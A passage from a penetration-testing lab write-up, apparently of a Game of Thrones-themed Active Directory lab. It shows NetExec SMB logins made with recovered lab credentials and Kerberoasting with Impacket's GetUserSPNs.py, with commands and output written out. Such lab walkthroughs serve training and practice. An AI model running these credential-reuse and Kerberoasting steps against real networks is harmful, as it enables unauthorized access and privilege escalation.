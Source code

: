 ```
# nxc smb 10.2.10.10 -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local

SMB         10.2.10.10      445    KINGSLANDING     [*] Windows 10 / Server 2019 Build 17763 x64 (name:KINGSLANDING) (domain:sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.10      445    KINGSLANDING     [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane

# nxc smb 10.2.10.12 -u samwell.tarly -p Heartsbane -d north.sevenkingdoms.local

SMB         10.2.10.12      445    MEEREEN          [*] Windows Server 2016 Standard Evaluation 14393 x64 (name:MEEREEN) (domain:essos.local) (signing:True) (SMBv1:True)
SMB         10.2.10.12      445    MEEREEN          [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane
```

Got successful auth on both fronts! That means I got authenticated access to all three domains and could perform enumeration of all three from this point forward.

## Authenticated Foothold

### Kerberoasting

Before diving into advanced attack paths and complicated exploits after gaining authenticated foothold, I always check for low hanging fruit first.  Checking for Kerberoastable accounts is one of many initial checks I perform as these may often have administrative privileges. Also, if they are configured with a weak password, I may be able to crack them and instantly boost my privileges. 

There are many ways you can perform Kerberoasting, I usually resort to Impacket’s GetUserSPNs.py. I used the credentials we just attained and launched the tool whilte specifying the DC to target.

*Note: you can avoid having to specify the DC and DNS servers in the lab by either configuring a DNS server on your Kali or by using the /etc/hosts file and creating an entry for each domain. I did not do so as I was flying through this, but just an FYI.*

```
# GetUserSPNs.py north.sevenkingdoms.local/samwell.tarly:Heartsbane -dc-ip 10.2.10.11

Impacket v0.11.0 - Copyright 2023 Fortra

ServicePrincipalName                                 Name         MemberOf                                                    PasswordLastSet             LastLogon                   Delegation
---------------------------------------------------  -----------  ----------------------------------------------------------  --------------------------  --------------------------  -------------
HTTP/eyrie.north.sevenkingdoms.local                 sansa.stark  CN=Stark,CN=Users,DC=north,DC=sevenkingdoms,DC=local        2024-08-07 20:48:29.396581  <never>                     unconstrained
CIFS/thewall.north.sevenkingdoms.local               jon.snow     CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2024-08-07 20:48:40.212387  <never>                     constrained
HTTP/thewall.north.sevenkingdoms.local               jon.snow     CN=Night Watch,CN=Users,DC=north,DC=sevenkingdoms,DC=local  2024-08-07 20:48:40.212387  <never>                     constrained
MSSQLSvc/castelblack.north.sevenkingdoms.local       sql_svc                                                                  2024-08-07 20:48:48.011689  2024-08-07 21:05:52.166336
MSSQLSvc/castelblack.north.sevenkingdoms.local:1433  sql_svc                                                                  2024-08-07 20:48:48.011689  2024-08-07 21:05:52.166336
```
